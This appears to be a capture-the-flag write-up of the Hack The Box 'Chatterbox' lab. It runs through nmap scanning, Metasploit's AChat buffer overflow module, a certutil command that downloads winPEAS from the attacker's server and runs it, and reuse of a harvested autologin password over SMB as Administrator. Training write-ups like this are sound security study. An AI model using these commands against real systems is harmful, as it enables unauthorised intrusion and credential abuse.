 ### HTB Chatterbox  (10.10.10.74)

Here we are again, doing another HTB.  Hope this finds you well and let's get to it.

So first thing's first, we nmap to see what we're dealing with.

`sudo nmap -A 10.10.10.74`

![pic1nmap](/Images/HTB2Chat/Pic1nmap.png)
![pic2nmap](/Images/HTB2Chat/Pic2nmap.png)

Looks like we've got a windows machine on our hands.  Some SMB stuff too so that could prove intersting later.  At this point the guided approach in HTB had kinda stopped working.  It was asking how many ports were open and I would answer from this and it would be wrong.  I found a write up to check my work and appears I wasn't totally wrong, but I had too many.  I even tried adjusting my nmap scan.

`sudo nmap -A -p- 10.10.10.74`

And got still another answer, that was again, wrong lol.

![pic3nmap](/Images/HTB2Chat/pic3nmap.png)

The answer you're looking for is 2.  Those two ports are the the focus, that we will get into now.

The next question in the guided mode asks about the known buffer overflow attack linked to achat.  After a google search I do end up finding an exploit for a version of achat.  Not sure if it's the version I am looking at though, so lets go about finding that.

Followed directions on the rapid7 site.

```
msf6 > use exploit/windows/misc/achat-bof
msf6 exploit(windows/misc/achat-bof) > show targets
```

![pic4metaspoit](/Images/HTB2Chat/Pic4metasploit.png)

And look at that, the version number.  And it just happens to match the exploit I found.  So lets give it a go.

In that same exploit, let's look at our options.

```
msf6 exploit(windows/misc/achat-bof) > set target 10.10.10.74
msf6 exploit(windows/misc/achat-bof) > set lhost <my vpn ip>
msf6 exploit(windows/misc/achat-bof) > show options
```

![pic5metasploit](/Images/HTB2Chat/Pic5metasploit.png)

`msf6 exploit(windows/misc/achat-bof) > run`

And it.....wait, it failed?!  Huh.  Ok, well let's try a different way.  So I found a couple things on git hub about using a buffer overflow for this.  It required using msfvenom in order to build out the vulnverability.  After finding that and getting it figured out (including finding out that these exploits were written in python2 and not python3), and a machine reset, I was finally able to get my exploit going for initial foothold.

![pic6cmd](/Images/HTB2Chat/Pic6cmd.png)

Hey hey!!  That did the trick.  Now that we're in as the user, lets go ahead and grab his flag.

![pic7userflag](/Images/HTB2Chat/Pic7userflag.png)

Now that I have that, let's get to getting the root one.

So first thing, grab us a bit of winpeas and then use python to start an http server and certutil.exe to grab the file over and run that.

```
root@kali# python3 -m http.server 80

C:/Users/Alfred/Documents> certutil -urlcache -f http://<VPN IP Address>/winpeasx86.exe winpeasx86.exe
C:/Users/Alfred/Documents> winpeasx86.exe
```

Once I got that run, then I look through the output and wouldn't you know it, there's an autologin set up.  And it's giving me the password to that.  Not to mention that we also see Alfred here has access to the admins home folders.

![pic8findings](/Images/HTB2Chat/pic8findings.png)

Turns out I don't have full access.  I still have the password though.

![pic9denied](/Images/HTB2Chat/pic9denied.png)


So let's try to do something with this password.  So after some looking, I find that the trick to this box is in the ports that are open.  I find a tool called plink.exe cause when looking at the netstat -ano command, you'll notice that there is an extra port on the inside that isn't showing up on the outside.

```
C:/Users/Alfred/Desktop>netstat -ano
```

![pic10SMB](/Images/HTB2Chat/pic10SMB.png)

Oh look, it's SMB.  We know all about SMB.  And actually, after looking, I found that SMB is apparently running on the outside.  Back to that earlier where it showed only 2 ports as being open.  So connect via SMB and try the Administrator account with the password we grabbed earlier for Alfred, since he's a local admin.

```
smbclient \\\\10.10.10.74\\C$ -U Administrator
Password for [WORKGROUP\Administrator]:
```
![pic11SMB](/Images/HTB2Chat/pic11SMB.png)

And that gives us our root.txt file.  Use SMB to download the file and then simply open it up and there's your flag!

![pic12SMB](/Images/HTB2Chat/pic12SMB.png)
![pic13root](/Images/HTB2Chat/pic13root.png)

This one was fun, a little sad that the plink path didn't work but it is what it is.  I think it may not have worked because that port was already on the outside so trying to forward something already forwarded may be an issue.  But, we got it, all good now.
